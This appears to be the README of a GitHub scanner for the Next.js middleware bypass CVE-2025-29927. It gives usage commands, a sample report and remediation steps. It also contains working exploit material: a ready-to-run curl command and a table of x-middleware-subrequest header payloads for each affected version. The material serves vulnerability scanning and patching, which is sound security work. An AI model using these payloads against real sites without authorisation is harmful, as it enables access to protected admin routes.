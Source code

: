 # 🔒 Next.js Middleware Bypass Scanner (CVE-2025-29927) 🛡️

![GitHub stars](https://img.shields.io/github/stars/pentestfunctions/nextjs-middleware?style=social)
![License](https://img.shields.io/badge/license-MIT-blue)
![Python Version](https://img.shields.io/badge/python-3.6%2B-blue)

## 🚨 About CVE-2025-29927

A critical vulnerability affecting Next.js applications using middleware that allows attackers to bypass middleware security controls by manipulating request headers.

This scanner efficiently detects vulnerable Next.js applications and provides exploitation guidance.

<p align="center">
  <img src="https://github.com/pentestfunctions/nextjs-middleware/blob/main/images/middleware.gif?raw=true">
</p>

## 🌟 Features

- 🔍 Automatically detects Next.js applications and version hints
- 🛡️ Identifies protected routes that might be vulnerable
- 🚀 Multi-threaded scanning for faster results
- 📊 Rich visual reports (optional)
- 🧪 Multiple payload variations for different Next.js versions
- 📝 Detailed vulnerability reporting
- 💻 Works with both modern and legacy Next.js applications (v11.x - v15.1.x)
- 🔮 Advanced Next.js version detection
- 💉 Generates ready-to-use curl commands for exploitation proof-of-concept
- 🔄 Robust redirect chain analysis to detect successful bypasses

## 📋 Requirements

- Python 3.6+
- Required packages:
  ```
  requests
  colorama (for basic output)
  rich (optional, for enhanced output)
  ```

## 🔧 Installation

```bash
# Clone the repository
git clone https://github.com/pentestfunctions/nextjs-middleware.git
cd nextjs-middleware

# Install dependencies
pip install -r requirements.txt
```

## 🚀 Usage

Basic scan:
```bash
python CVE-2025-29927.py http://example.com
```

Advanced options:
```bash
# Verbose output
python CVE-2025-29927.py example.com -v

# Save results to file
python CVE-2025-29927.py example.com -o results.json

# Adjust thread count
python CVE-2025-29927.py example.com -t 10

# Simple output (no rich formatting)
python CVE-2025-29927.py example.com --no-rich
```

## 📊 Example Output

When a vulnerability is detected, the scanner provides detailed information:

```
=====================================
CVE-2025-29927 SCAN REPORT FOR https://example.com
=====================================

SUMMARY:
  Target: https://example.com
  Next.js Detected: Yes
  Version Detected: Yes (v13.4.12)
  Routes Tested: 5
  Vulnerable: Yes

VERSION DETECTION CLUES:
  - Next.js headers found: x-nextjs-render
  - Build ID: 1a2b3c4d5e6f7g8h9i0j
  - App Router indicators detected (likely Next.js 13+)

VULNERABILITY DETAILS:

  Route: /admin
  Vulnerable to:
    - Next.js v13.x-15.1.x (standard location)
    - Next.js v13.x+ (app directory)

EXPLOIT COMMAND:
  curl -i -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' https://example.com/admin
```

![Scanner Output Example](https://raw.githubusercontent.com/pentestfunctions/nextjs-middleware/main/screenshots/scanner_output.png)

## 🧪 How It Works

1. 🔍 Detects if the target is using Next.js through various indicators in HTTP responses
2. 🔎 Identifies protected routes based on redirect behavior or authentication patterns
3. 🧰 Tests vulnerable header payloads against protected routes
4. 🔄 Compares response behavior with and without the vulnerability payloads
5. 📝 Reports findings with exploitation guidance and proof-of-concept commands

The scanner works by exploiting how Next.js middleware handles certain headers. By sending specifically crafted values in the `x-middleware-subrequest` header, attackers can bypass security checks implemented in middleware functions.

### 🎯 Tested Headers and Payloads

The scanner tests the following payloads targeting different Next.js versions and configurations:

| Header | Value | Target |
|--------|-------|--------|
| `x-middleware-subrequest` | `middleware:middleware:middleware:middleware:middleware` | Next.js v13.x-15.1.x (standard location) |
| `x-middleware-subrequest` | `pages/_middleware` | Next.js v11.1.4-12.1.x (pages router) |
| `x-middleware-subrequest` | `middleware` | Next.js v12.2.x (standard location) |
| `x-middleware-subrequest` | `src/middleware` | Next.js v12.2.x (src directory) |
| `x-middleware-subrequest` | `src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` | Next.js v13.x-15.1.x (src directory) |
| `x-middleware-subrequest` | `app/middleware:app/middleware:app/middleware:app/middleware:app/middleware` | Next.js v13.x+ (app directory) |
| `x-middleware-subrequest` | `src/app/middleware:src/app/middleware:src/app/middleware:src/app/middleware:src/app/middleware` | Next.js v13.x+ (src/app directory) |

When a vulnerable application receives these headers, the middleware may be bypassed entirely, allowing access to protected routes and resources.

## 🔬 Affected Versions

- Next.js v11.1.4 - v12.1.x (pages router middleware)
- Next.js v12.2.x (using middleware.js/ts)
- Next.js v13.x - v15.1.x (using middleware.js/ts)

Patched versions:
- Next.js v15.2.3+
- Next.js v14.2.25+

## 🛡️ Remediation

1. Update to the patched version:
   - Next.js 15.x: Update to v15.2.3 or newer
   - Next.js 14.x: Update to v14.2.25 or newer

2. If updating is not immediately possible:
   - Block the `x-middleware-subrequest` header at your web server or proxy level

#### For Cloudflare:
Create a Firewall Rule to block requests containing the `x-middleware-subrequest` header.

## ⚠️ Disclaimer

This tool is intended for security professionals to assess their own systems or systems they have permission to test. Do not use against systems without explicit permission. The author is not responsible for any misuse.

---
Created with ❤️ by [pentestfunctions](https://github.com/pentestfunctions)
